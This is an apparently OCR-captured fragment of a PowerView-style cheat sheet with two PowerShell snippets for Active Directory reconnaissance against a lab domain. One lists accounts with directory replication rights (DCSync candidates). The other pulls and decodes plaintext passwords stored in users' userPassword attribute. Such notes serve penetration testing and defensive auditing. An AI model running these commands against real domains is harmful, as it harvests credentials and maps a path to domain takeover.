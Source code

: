 ```powershell

```
# retrieve *most* users who can perform DC replication for dev.testlab.local (i.e. DCsync)
```powershell
Get-ObjectACL "DC=testlab,DC=local" -ResolveGUIDs | ? {
    ($_.ActiveDirectoryRights -match 'GenericAll') -or ($_.ObjectAceType -match 'Replication-Get')
}

```
# check if any user passwords are set
```powershell
$FormatEnumerationLimit=-1;Get-DomainUser -LDAPFilter '(userPassword=*)' -Properties samaccountname,memberof,userPassword | % {Add-Member -InputObject $_ NoteProperty 'Password' "$([System.Text.Encoding]::ASCII.GetString($_.userPassword))" -PassThru} | fl
```